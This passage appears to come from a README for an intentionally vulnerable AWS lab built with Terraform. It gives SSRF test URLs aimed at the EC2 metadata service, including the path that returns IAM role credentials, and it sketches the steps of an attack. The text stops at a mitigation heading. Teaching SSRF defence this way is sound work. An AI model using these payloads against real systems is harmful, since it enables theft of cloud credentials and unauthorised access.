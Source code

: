 ### 4. Deploy the Infrastructure
```bash
terraform apply
```

Type `yes` when prompted to confirm the deployment.


## Testing the SSRF Vulnerability

### 1. Access the Vulnerable Application
Navigate to the public IP of the ec2 instance.

### 2. Basic SSRF Test
Try accessing the instance metadata service:
```
http://<website address or ip>/?fetch=http:169.254.169.254/latest/meta-data/
```

### 3. Retrieve Instance Metadata
Common IMDSv1 endpoints to test:
- `http://<website address or ip>/?fetch=http:169.254.169.254/latest/meta-data/instance-id`
- `http://<website address or ip>/?fetch=http:169.254.169.254/latest/meta-data/local-ipv4`
- `http://<website address or ip>/?fetch=http:169.254.169.254/latest/meta-data/public-ipv4`
- `http://<website address or ip>/?fetch=http:169.254.169.254/latest/meta-data/iam/security-credentials/`

### 4. Retrieve IAM Credentials
If IAM roles are attached:
```
http://<website address or ip>/?fetch=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE-NAME]
```

This will return temporary AWS credentials that could be used for privilege escalation.

## Understanding the Attack

### IMDSv1 vs IMDSv2
- **IMDSv1**: Simple HTTP GET requests, vulnerable to SSRF
- **IMDSv2**: Requires session tokens, provides SSRF protection

### Attack Scenario
1. Attacker finds SSRF vulnerability in web application
2. Attacker crafts requests to AWS metadata service
3. Attacker retrieves instance metadata and IAM credentials
4. Attacker uses credentials to access AWS resources

## Mitigation Strategies
